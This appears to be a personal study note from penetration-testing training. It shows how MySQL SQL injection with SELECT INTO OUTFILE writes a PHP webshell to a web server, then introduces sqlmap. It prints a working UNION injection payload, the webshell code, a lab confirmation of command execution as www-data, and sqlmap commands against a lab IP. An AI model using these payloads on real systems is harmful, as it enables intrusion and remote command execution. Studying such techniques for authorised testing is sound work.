 #### MySQL  
Although the various MySQL database variants don't offer a single function to escalate to RCE, we _can_ abuse the `SELECT INTO_OUTFILE` statement to write files on the web server
+ **Note**: For this attack to work, the file location must be writable to the OS user running the database software

As an example, let's resume the **UNION** payload on our MySQL target application we explored previously, expanding the query that writes a _webshell_ on disk
+ We'll issue the **UNION SELECT** SQL keywords to include a single PHP line into the first column and save it as **webshell.php** in a writable web folder
``` SQL
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

The written PHP code file results in the following:
``` PHP
<? system($_REQUEST['cmd']); ?>
```

The PHP _system_ function will parse any statement included in the _cmd_ parameter coming from the client HTTP REQUEST, thus acting like a web-interactive command shell

If we try to use the above payload inside the _Lookup_ field of the **search.php** endpoint, we receive the following error
![[Pasted image 20230906161638.png]]
+ Fortunately, this error is related to the incorrect return type, and should not impact writing the webshell on disk
+ To confirm, we can access the newly created webshell inside the **tmp** folder along with the **id** command:
![[Pasted image 20230906161711.png]]
+ The webshell is working as expected, since the output of the _id_ command is returned to us through the web browser
+ We discovered that we are executing commands as the _www-data_ user, an identity commonly associated with web servers on Linux systems
+ Now that we understand how to leverage SQLi to manually obtain command execution, let's discover how to automate the process with specific tools

### Automating the Attack 
The SQL injection process we followed can be automated using several tools pre-installed on Kali Linux
+ In particular, <mark style="background: #D2B3FFA6;">sqlmap</mark> can identify and exploit SQL injection vulnerabilities against various database engines
+ run <mark style="background: #D2B3FFA6;">sqlmap</mark> on our sample web application. We will set the URL we want to scan with `-u` and specify the parameter to test using `-p`
+ Usage:
```
sqlmap -u http://<IP_OR_DOMAIN>/<PAGE>.php?<PARAM>=1 -p <PARAM>
```
+ Example:
```
kali@kali:~$ sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.6.4#stable}
|_ -| . [)]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

...
[*] starting @ 02:14:54 PM /2022-05-16/

[14:14:54] [INFO] resuming back-end DBMS 'mysql'
[14:14:54] [INFO] testing connection to the target URL
got a 302 redirect to 'http://192.168.50.16:80/login1.php?msg=2'. Do you want to follow? [Y/n]
```